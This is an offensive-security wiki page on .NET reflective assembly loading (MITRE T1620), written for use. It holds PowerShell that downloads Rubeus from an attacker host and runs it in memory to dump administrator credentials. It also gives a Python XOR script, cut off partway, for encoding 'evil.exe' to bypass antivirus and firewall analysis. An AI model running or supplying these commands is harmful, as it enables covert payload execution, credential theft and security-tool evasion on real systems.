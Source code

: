 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Reflective Assembly

## Theory

We may reflectively load .NET code (exe or dll) into a process in order to conceal the execution of malicious payloads. Reflective loading involves allocating then executing payloads directly within the memory of the process **without calling the standard Windows APIs**.

## Practice

### Powershell

We can implement Reflective Assembly Loading throught powershell to load the .NET assembly of a exe/dll using `[System.Reflection.Assembly]`&#x20;

{% tabs %}
{% tab title="Classic" %}
When reflectively loading .NET assembly (exe or dll), **we have access to all it's classes and methods** directely from powershell.&#x20;

We can find lot of C# offensive tools on the [SharpCollection](https://github.com/Flangvik/SharpCollection) Github repository that we may reflectively load. As example, we will take Rubeus.

On the Windows Tartget, via powershell, load the .NET assembly:

```powershell
#Load assembly from memory
$data=(New-Object Net.Webclient).DownloadData("http://<ATTACKING_IP>/Rubeus.exe")
[System.Reflection.Assembly]::Load($data)

#Load assembly from disk
[System.Reflection.Assembly]::Load([IO.File]::ReadAllBytes(".\Rubeus.exe"))
```

We can now call it's methods

```powershell
[Rubeus.Program]::Main("dump /user:administrator".Split())
```
{% endtab %}

{% tab title="XORed" %}
To bypass AV signature and Firewalls analysis, we can XOR our native code before loading it as follow:

XOR the Binary using the following python code

{% code title="xor_encrypt.py" %}
```python
def xor_encrypt(data, key):
    decrypted_data = bytearray()
    key_length = len(key)
    for i, byte in enumerate(data):
        decrypted_byte = byte ^ ord(key[i % key_length])
        decrypted_data.append(decrypted_byte)
    return bytes(decrypted_data)

def main():
    input_file_path = "evil.exe"  # Replace this with the path to your input file
    output_file_path = "evil.enc.exe" # Replace this with the path to your output enc file
    xor_key = "MySuperSecretKey"  # Replace "XOR_KEY" with your actual XOR key
```